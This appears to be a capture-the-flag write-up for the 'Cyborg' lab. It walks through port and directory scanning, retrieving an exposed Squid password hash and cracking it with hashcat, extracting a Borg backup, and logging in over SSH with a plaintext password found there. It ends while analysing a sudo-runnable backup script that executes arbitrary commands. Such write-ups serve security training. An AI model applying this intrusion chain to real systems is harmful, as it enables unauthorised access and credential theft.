At this time, we usually start exploring by inspecting the frontend first—checking the elements, reviewing the network requests and responses, and so on.


## Reconnaissance
### Front-End Recon
 
Now that we know it’s an Ubuntu server running Apache, let’s check the response headers. You can do this using curl, or if you prefer, tools like Burp Suite or Caido work well too. Personally, I prefer using curl.


### Adding Localhost
```bash
> echo "10.10.84.7 cyborg.thm" | sudo tee -a /etc/hosts
```
### Web Application Enumeration

Here, we found a user named Alex a music producer on the admin page.



While identifying the tech stack, we noticed that the site is using Cloudflare as its CDN. I initially assumed that security features like the Web Application Firewall (WAF), rate limiting, and other protections were enabled—but based on how the site responds, it looks like those features might not be properly configured or active.



Here, we discovered a misconfigured Squid proxy, which could potentially lead to information disclosure on the website.


### Fingerprinting Web Servers


## 💡 Tips 
when you see a TTL (Time To Live) value of 63 in a ping or traceroute response, it's a strong indicator that the responding system is running a Linux-based OS.

```bash
> ping -c 1 cyborg.thm
PING cyborg.thm (10.10.84.7) 56(84) bytes of data.
64 bytes from cyborg.thm (10.10.84.7): icmp_seq=1 ttl=63 time=269 ms
```
### Inspecting HTTP Response Headers and Sitemaps

We found an archive file available for download on the admin page. We tried intercepting the request using Burp Suite to see what’s inside the archive, and we noticed it seems to contain a path pointing to final_archive along with a specific filename.


```bash
> curl 10.10.84.7 -I
HTTP/1.1 200 OK
Date: Mon, 16 Jun 2025 05:05:20 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 30 Dec 2020 09:47:13 GMT
ETag: "2c39-5b7ab644f3043"
Accept-Ranges: bytes
Content-Length: 11321
Vary: Accept-Encoding
Content-Type: text/html
```
### Technology Stack Identification

## Mapping and Discovery
```bash
> nmap 10.10.84.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-16 01:06 EDT
Nmap scan report for 10.10.84.7
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We only found two open ports—SSH and HTTP (port 80). Since this appears to be a small or personal website, there's a strong possibility that if we manage to obtain valid credentials, we could gain SSH access. That’s a serious risk, especially if the SSH service is misconfigured or lacks proper security measures like rate limiting or tools such as Fail2Ban to block brute-force attempts.

### Full scan 
```bash
> nmap -sC -sV -p$(nmap -p- --min-rate=2000 -n -T4 $ip | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') $ip -oN nmap.txt
```
```bash
# Nmap 7.95 scan initiated Mon Jun 16 01:15:01 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -p22,80 -oN nmap.txt 10.10.84.7
Nmap scan report for cyborg.thm (10.10.84.7)
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun 16 01:15:19 2025 -- 1 IP address (1 host up) scanned in 17.65 seconds
```

We initially tried using Dirb for basic file and directory scanning, but to get a more thorough look at what’s inside the website, we’ll switch to tools like Feroxbuster or FFUF for deeper and faster enumeration.
### Directory and File Listings
```bash
> dirb http://cyborg.thm

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Jun 16 01:24:00 2025
URL_BASE: http://cyborg.thm/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://cyborg.thm/ ----
==> DIRECTORY: http://cyborg.thm/admin/                                                                                                                                     
==> DIRECTORY: http://cyborg.thm/etc/                                                                                                                                       
```
We observed a 200 OK response when accessing sensitive files like /etc/passwd and squid.conf, which indicates that these files are publicly accessible through the web server. This is a serious misconfiguration and could be considered an Indicator of Compromise (IOC) or a clear information disclosure vulnerability. Exposing system-level configuration files like these can provide attackers with valuable insights into the server environment, user accounts, and potential ways to escalate privileges or further exploit the system.

```bash
> feroxbuster -u http://cyborg.thm/ -w /usr/share/seclists/Discovery/Web-Content/big.txt --scan-dir-listings
                                                                                                                                                        
200     GET    http://cyborg.thm/icons/ubuntu-logo.png
200     GET    http://cyborg.thm/
301     GET    http://cyborg.thm/admin => http://cyborg.thm/admin/
301     GET    http://cyborg.thm/etc => http://cyborg.thm/etc/
200     GET    http://cyborg.thm/etc/squid/passwd
200     GET    http://cyborg.thm/etc/squid/squid.conf
301     GET    http://cyborg.thm/etc/squid => http://cyborg.thm/etc/squid/
```
```bash
> file archive.tar
archive.tar: POSIX tar archive (GNU)

> exiftool archive.tar
ExifTool Version Number         : 13.25
File Name                       : archive.tar
Directory                       : .
File Size                       : 1567 kB
File Modification Date/Time     : 2025:06:16 01:43:11-04:00
File Access Date/Time           : 2025:06:16 01:50:21-04:00
File Inode Change Date/Time     : 2025:06:16 01:50:10-04:00
File Permissions                : -rw-rw-r--
File Type                       : TAR
File Type Extension             : tar
MIME Type                       : application/x-tar
Warning                         : Unsupported file type
~/cyborg > 
```
```bash 
> tar -xvf archive.tar
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```
### Investigation unknown files 

```bash
> lsd -al 4
.rw------- kali kali 1.4 MB Tue Dec 29 09:00:38 2020  4
~/cyborg/home/field/dev/final_archive/data/0 > 
```
```bash
> tree
.
└── field
    └── dev
        └── final_archive
            ├── config
            ├── data
            │   └── 0
            │       ├── 1
            │       ├── 3
            │       ├── 4
            │       └── 5
            ├── hints.5
            ├── index.5
            ├── integrity.5
            ├── nonce
            └── README

6 directories, 11 files
~/cyborg/home > 
```
```bash
> cat README
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

### Installation 

```bash
> sudo apt install borgbackup
```
```bash
> borg list .
Enter passphrase for key /home/kali/cyborg/home/field/dev/final_archive: 
```

> this time with need to investigate further to find password 

## Information Disclosure Vulnerability


```bash
> curl -s http://cyborg.thm/etc/squid/passwd -o -
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
~/cyborg > 
```
```bash
# single quote only 
> echo '$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' >> hash.txt
```
```bash
> curl -s http://cyborg.thm/etc/squid/squid.conf -o -
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```


### Password Cracking

> auto detect in hashcat 
```bash
> hashcat hash.txt 
``` 

```bash
> hashcat -m 1600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 5 secs

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward           
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
Time.Started.....: Mon Jun 16 02:43:57 2025 (7 secs)
Time.Estimated...: Mon Jun 16 02:44:04 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     6205 H/s (9.81ms) @ Accel:128 Loops:250 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 39424/14344385 (0.27%)
Rejected.........: 0/39424 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-1000
Candidate.Engine.: Device Generator
Candidates.#1....: treetree -> cheery
Hardware.Mon.#1..: Util: 85%

 
Stopped: Mon Jun 16 02:44:06 2025
```
Now that we’ve cracked the hash for the username found in the music_archive, it’s time to extract the contents of the archive and see if there are any important or sensitive files inside.
```bash
❯  borg list /home/l0n3m4n/thm/cyborg/home/field/dev/final_archive

Enter passphrase for key /home/l0n3m4n/thm/cyborg/home/field/dev/final_archive: 
music_archive                        Tue, 2020-12-29 22:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
```
```bash
❯ borg extract /home/l0n3m4n/thm/cyborg/home/field/dev/final_archive::music_archive

Enter passphrase for key /home/l0n3m4n/thm/cyborg/home/field/dev/final_archive: 
❯ ls
README  config  data  hints.5  home  index.5  integrity.5  nonce
```

```bash
❯ cd home

❯ ls
alex

❯ cd alex

❯ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos

❯ tree
.
├── Desktop
│   └── secret.txt
├── Documents
│   └── note.txt
├── Downloads
├── Music
├── Pictures
├── Public
├── Templates
└── Videos

9 directories, 2 files
~/thm/cyborg/home/field/dev/final_archive/home/alex ❯ 
```
## Exploitation
### SSH connect
```bash
❯ cat note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
```bash
❯ ssh -p 22 alex@10.10.72.216
```
### Post Exploitation Enumeration 
```bash
alex@ubuntu:~/Music$ ls
image10.mp3  image11.mp3  image12.mp3  image1.mp3  image2.mp3  image3.mp3  image4.mp3  image5.mp3  image6.mp3  image7.mp3  image8.mp3  image9.mp3
```
```bash
alex@ubuntu:~/Music$ ls -al
total 8
drwxr-xr-x  2 alex alex 4096 Dec 30  2020 .
drwx------ 17 alex alex 4096 Dec 31  2020 ..
-rw-r--r--  1 root root    0 Dec 30  2020 image10.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image11.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image12.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image1.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image2.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image3.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image4.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image5.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image6.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image7.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image8.mp3
-rw-r--r--  1 root root    0 Dec 30  2020 image9.mp3
alex@ubuntu:~/Music$ 
```
The user alex on the Ubuntu system has the ability to run the script /etc/mp3backups/backup.sh with `sudo` privileges without needing a password. This means alex can execute that script as root, which could potentially be exploited for privilege escalation if the script is writable or runs other commands.
```bash
alex@ubuntu:~$ sudo -l 
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
```bash
alex@ubuntu:/etc/mp3backups$ ls -al
total 28
drwxr-xr-x   2 root root  4096 Dec 30  2020 .
drwxr-xr-x 133 root root 12288 Dec 31  2020 ..
-rw-r--r--   1 root root   339 Jun 18 21:17 backed_up_files.txt
-r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
-rw-r--r--   1 root root    45 Jun 18 21:17 ubuntu-scheduled.tgz
alex@ubuntu:/etc/mp3backups$ 
```
### Lateral Movement 
```bash
alex@ubuntu:/etc/mp3backups$ cat /etc/passwd | grep $100

systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
alex:x:1000:1000:alex,,,:/home/alex:/bin/bash

alex@ubuntu:/etc/mp3backups$ id 

uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
alex@ubuntu:/etc/mp3backups$
```
### Gaining Root 
```bash
alex@ubuntu:/etc/mp3backups$ cat backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in 
		c) command=${OPTARG};;
	esac
done


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```
### Source code analysis
- What the script does:
    - Runs a find command with sudo to list all `.mp3` files and writes the output to `/etc/mp3backups/backed_up_files.txt`.
